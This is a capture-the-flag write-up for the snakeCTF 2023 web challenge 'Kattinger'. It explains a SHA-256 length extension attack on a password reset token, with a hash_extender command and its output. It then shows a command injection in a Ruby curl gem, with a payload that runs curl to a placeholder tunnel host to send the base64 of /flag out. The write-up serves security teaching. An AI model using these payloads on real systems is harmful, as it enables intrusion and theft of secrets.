


# Kattinger [_snakeCTF 2023_]

**Category**: web


## Description

Fellow cat lovers, I made an app to share out favorites!

## Solution

The application is a platform to share and comment on pictures of cats.

By looking at the source code, we can find that the flag is located in the admin page

```
class AdminController < ApplicationController
  include SessionHelper
  before_action :print_request_info, :require_login
  
  def index
    raise ActionController::RoutingError, 'Unauthorized' if !is_admin?()

    @FLAG = ENV['FLAG'] || 'snakeCTF{REDACTED}'
  end
end
```

To access it, we have to log in with the admin credentials.
In the db folder there's a file `seeds.rb`, which is used to populate the database:

```
User.create([
              { id: 1, username: 'REDACTED', password: 'REDACTEDREDACTEDREDACTED' },
              { id: 2, username: 'one', password: 'supercoolandsafepassword' },
              { id: 3, username: 'two', password: 'supercoolandsafepassword' }
            ])
.....
```

We can see that the admin's username and password are redacted, so we can't find the credentials here.

Reading the file located at `app/controllers/users_controller.rb` we can check how the authentication is handled. In this file we can see something weird going on in the create endpoint: 

```
params[:user][:username] = params[:user][:username].last(8)
```

Why are characters from the username removed? Let's check the model for the user:

```
class User < ApplicationRecord
    has_many :comments
    validates :username, presence: true, length: {maximum: 8}  # We have to save space!!
    validates :password, presence: true, length: {minimum: 16} # but we care about security
end
```

This tells us only the last 8 characters of the username are stored. This is for sure strange, can it be part of the vulnerability?

Moreover, in `user_controller.rb`, we can see how the `reset password` functionality is handled:

```
  def reset_submit
    ...
    #GET
    if request.get?
        render :reset_submit
        return
    else 
    #POST
      ...

      if !check(params[:user][:username], params[:user][:reset_token])
        @message = "Wrong reset token!"
        render :reset_submit, status: :unprocessable_entity
        return
      end
      ...
      @account = User.find_by(username: params[:user][:username].last(8))
      @message = "Sorry, we're still building the application. Your current password is: " + @account.password
      render :reset_submit, status: :gone
      return
    end
  end
```

The `reset_submit` method handles the requests for the password change functionality. We notice that the `check` function validate the token via the provided `username` and `reset_token`. Let's see how it works in the helper:

```
module UsersHelper
    require 'digest'

    def cipher(username)
        generator = Digest::SHA256::new
        generator << ENV['SECRET'] + username
        
        return generator.hexdigest()
    end

    def check(username, token)
        generator = Digest::SHA256::new
        generator << ENV['SECRET'] + username

        return generator.hexdigest() == token
    end
end
```

This scenario is clearly vulnerable to [hash extension attack](https://en.wikipedia.org/wiki/Length_extension_attack), so we just need to find the admin username to exploit it.

To find the username we can fuzz by the ID passed in the user's `show` method, since the accounts are not intended to be secret (notice that you can find someone account by clicking on its name on the comments, but of course the admin has no comments).

The admin can be easily recognized by the `admin` flag in its profile.



We can now use a tool called [hash extender](https://github.com/iagox86/hash_extender) to append the admin username to our username and generate a valid reset token.

```
hash_extender --data zqhGqlxi --secret 32 --append 4dm1n_54 --signature 1d7dba0c011a28b5cde8e6542a03fc1a71c006696cdcce827e984b308bab05e9 --format sha256
b4a6d13fef3f701df246049d00a114a11721f8ea4403ad947182bfaac4293ba4 7a716847716c786980000000000000000000000000000000000000000000014034646d316e5f3534
```
The first part of the output is the new reset token, whilst the second is the new username (hex encoded) to submit on the reset page.

After submitting the reset token, we get the admin password.

Going to the admin page, we get the following: `I was joking, read the file /flag`.
So we need to perform one last step to obtain the flag.

Now we're logged in as admin, and the only functionality we gained is in the cat preview page:



So let's read how this is implemented in the cat helper:

```
module CatsHelper
    require 'curl'
    require 'rmagick'
    require 'base64'
    require 'timeout'

    include Magick

    def process_image(image_path)        
        p "Processing: " + image_path
        image_path = image_path.encode!("utf-8").scrub()
        if image_path.start_with?('http') || image_path.start_with?('https')
            curl = CURL.new({:cookies_disable => false})
            curl.debug=true
            p image_path
            filename = Timeout::timeout(3) do
                curl.save!(image_path)
            end
            p filename
        else
            filename = image_path
        end
        processed = ImageList.new(image_path)
        processed = processed.solarize(100)
        result = 'data://image;base64,' + Base64.strict_encode64(processed.to_blob())
        File.unlink(filename)
        return result

    end
end
```

We notice that it is using the `curl` library to fetch the image and `rmagick` to process it.
The `curl` gem it's broken AF, we can read its source code [here](https://github.com/tggo/curl/blob/master/lib/curllite.rb):

```
def save!(url,path="/tmp/curl/curl_#{rand}_#{rand}.jpg")
FileUtils.mkdir_p(File.dirname(path))
    cmd = "curl  #{browser_type}   --location --compressed --silent  \"#{url}\" --output \"#{path}\"  "
    puts cmd.red  if @debug	 
	system(cmd)
	path
end
```

This is vulnerable to command injection. By setting the payload to something like `http://www.google.com" && curl "{tunnel.public_url}/$(cat /flag | base64)` as the `image_path` (or `location` in the cat's editing page) and visiting the preview path, we can trigger a request to our endpoint which sends us the flag.


